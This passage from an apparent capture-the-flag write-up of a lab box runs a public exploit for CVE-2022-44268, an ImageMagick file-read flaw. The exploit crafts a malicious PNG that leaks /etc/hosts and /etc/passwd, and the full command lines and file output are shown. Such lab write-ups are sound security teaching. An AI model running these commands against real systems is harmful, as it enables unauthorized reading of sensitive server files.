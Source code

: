 
#### Script

[This repo](https://github.com/kljunowsky/CVE-2022-44268) has a nice Python
version of the exploit. I run it once to create a malicious image, and then
again pointing at the image on the site to get the results:

    
    
    oxdf@hacky$ python CVE-2022-44268.py --image poc.png --file-to-read /etc/hosts --output pngout.png
    oxdf@hacky$ python CVE-2022-44268.py --url http://pilgrimage.htb/shrunk/655cda5792e0d.png
    127.0.0.1       localhost
    127.0.1.1       pilgrimage pilgrimage.htb
    
    # The following lines are desirable for IPv6 capable hosts
    ::1     localhost ip6-localhost ip6-loopback
    ff02::1 ip6-allnodes
    ff02::2 ip6-allrouters
    

### Enumerate File System

#### Home Directories

I’ll start by checking the users on the box in the `/etc/passwd` file:

    
    
    oxdf@hacky$ python CVE-2022-44268/CVE-2022-44268.py --image poc.png --file-to-read /etc/passwd --output pngout.png
    oxdf@hacky$ python CVE-2022-44268/CVE-2022-44268.py --url http://pilgrimage.htb/shrunk/655cdab09c70e.png
    root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    bin:x:2:2:bin:/bin:/usr/sbin/nologin
    sys:x:3:3:sys:/dev:/usr/sbin/nologin
    sync:x:4:65534:sync:/bin:/bin/sync
    games:x:5:60:games:/usr/games:/usr/sbin/nologin
    man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
    lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
    mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
    news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
    uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
    proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
    www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
    backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
    list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
    irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
    gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
    nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
    _apt:x:100:65534::/nonexistent:/usr/sbin/nologin
    systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
    systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
    messagebus:x:103:109::/nonexistent:/usr/sbin/nologin
    systemd-timesync:x:104:110:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
    emily:x:1000:1000:emily,,,:/home/emily:/bin/bash
    systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
    sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
    _laurel:x:998:998::/var/log/laurel:/bin/false
    
